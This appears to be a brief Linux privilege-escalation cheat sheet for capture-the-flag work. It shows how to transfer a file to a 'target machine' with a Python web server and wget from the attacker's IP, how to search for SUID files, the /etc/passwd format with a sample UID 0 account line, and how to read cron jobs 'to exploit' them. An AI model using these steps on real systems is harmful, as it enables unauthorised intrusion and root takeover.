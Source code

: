 # How to get a file on a remote machine

## Start a python webserver on your machine
	python3 -m http.server 8000
## Use wget on the target machine to grab the file
	wget <your local IP>:<open port>/<filename>

# Amount of avaliable shells on the system

/etc/shells

# Search the file system for SUID/GUID files

find / -perm -u=s -type f 2>/dev/null

# /etc/passwd format

test:x:0:0:root:/root:/bin/bash

1. Username: It is used when user logs in. It should be between 1 and 32 characters in length.
2. Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".
3. User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
4. Group ID (GID): The primary group ID (stored in /etc/group file)
5. User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
6. Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
7. Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

# Format of a Cronjob

Cronjobs exist in a certain format, being able to read that format is important if you want to exploit a cron job. 

# = ID

m = Minute

h = Hour

dom = Day of the month

mon = Month

dow = Day of the week

user = What user the command will run as

command = What command should be run

For Example,

#  m   h dom mon dow user  command

17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly

